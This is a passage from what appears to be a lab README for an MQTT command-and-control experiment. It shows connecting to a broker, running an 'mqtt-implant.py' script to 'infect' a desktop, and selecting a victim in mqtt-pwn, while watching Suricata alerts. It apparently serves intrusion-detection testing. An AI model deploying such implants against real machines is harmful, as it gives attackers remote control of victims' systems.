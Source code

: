 ```sh
connect -o 172.21.0.2 -u admin -w admin1  //connects to the broker
```

### Infecting victim

- On the a Desktop machine (linux, macOS, or windows), do the following:

Go to the directory: `experiments/c2/malware`

- Create a python environment and activate it:

```sh
virtualenv -p python3.8 venv
source ./venv/bin/activate
```

Then, install the required python packages:

```sh
pip install -r requirements.txt
```

Next, *infect* your machine by executing:

```sh
python3 mqtt-implant.py
```

At this point, the infected machine will communicate with the attacker machine via mqtt broker. The attacker machine will get the notication that there's new victim.


![Command & Control - infecting target machine](./c2/img/1-c2-infecting.png "Command & Control - infecting target machine")

- Checking the alert on suricata stdout

```sh
docker exec -it suricata /bin/bash

tail -f /var/log/suricata/fast.log
```

### Send commands to victim  

On mqtt-pwn prompt (attacker machine):

- Select the victim number 1:

```sh
victim -i 1
``` 
